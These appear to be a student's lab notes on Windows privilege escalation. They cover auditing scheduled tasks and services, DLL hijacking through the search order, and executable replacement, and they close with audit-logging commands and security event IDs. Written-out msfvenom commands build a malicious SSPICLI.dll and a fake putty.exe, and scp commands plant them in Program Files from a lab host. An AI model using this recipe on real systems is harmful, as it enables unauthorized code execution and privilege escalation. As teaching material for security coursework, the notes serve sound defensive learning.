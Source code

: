     **Scheduled Tasks & Services**
    Items to evaluate include:
        Write Permissions
        Non-Standard Locations
        Unquoted Executable Paths
        Vulnerabilities in Executables
        Permissions to Run As SYSTEM

    **DEMO: Finding vulnerable Scheduled Tasks**
    schtasks /query /fo LIST /v
##    DEMO: DLL Hijacking
    Identify Vulnerability
    Take advantage of the default search order for DLLS
    NAME_NOT_FOUND present in executable’s system calls
    Validate permissions
    Create and transfer Malicious DLL

    step by step:
       1. check services! (weird locations, strange naming, lack of description etc.)
        2. double click service, check name, description, check path 
        3. go to the path of the executable in file explorer -> attempt to write something to the directory, (just create text file) if you can, this means you can put a DLL in there. **also try to rename executable**
        4. open sysinternals, run procmon to see what DLL's the .exe uses.
        5. procmon filter processname contains .dll & process name contains (.exe)
        & result is NAME NOT FOUND
        6. then run the executable -> take note of dll's found
        7. open linops -> create msfvenom command -> msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > C:\Users\Student\Desktop\whoami.txt' -f dll > SSPICLI.dll
        8. go back to windows on powershell -> scp that file you just created from linops back to windows ->  scp student@10.50.36.204:/home/student/SSPICLI.dll "C:\Program Files (x86)\Putty\SSPICLI.DLL" 
        9. run the executable -> with this msfvenom command, this should drop a text file with the contents of your command on the desktop.

## Demo renaming / writing (EXE replacement) if you can rename, use exe replacement.
    1. rename the .exe file to something else.
    2. go to linops and craft ya payload -> msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > C:\Users\Student\Desktop\whoami.txt' -f exe > putty.exe
    3. scp this back to the target box. -> scp student@10.50.36.204:/home/student/putty.exe "C:\Program Files (x86)\Putty\putty.exe"
    4. then run the executable.
        
        
## DEMO: Finding Vulnerable Services

    wmic service list full
    sc query        
## Other Vulnerabilities
    unpatched kernel vulnerabilities
    unpatched systems
    unpatched applications
##    DEMO: Audit Logging
    Show all audit category settings
        auditpol /get /category:*
        auditpol /get /category:* | findstr /i "success failure" (for what is being audited)
## Important Microsoft Event IDs
    4624/4625 - successful/ failed login
    4720 - account created
    4672 - administrative user logged on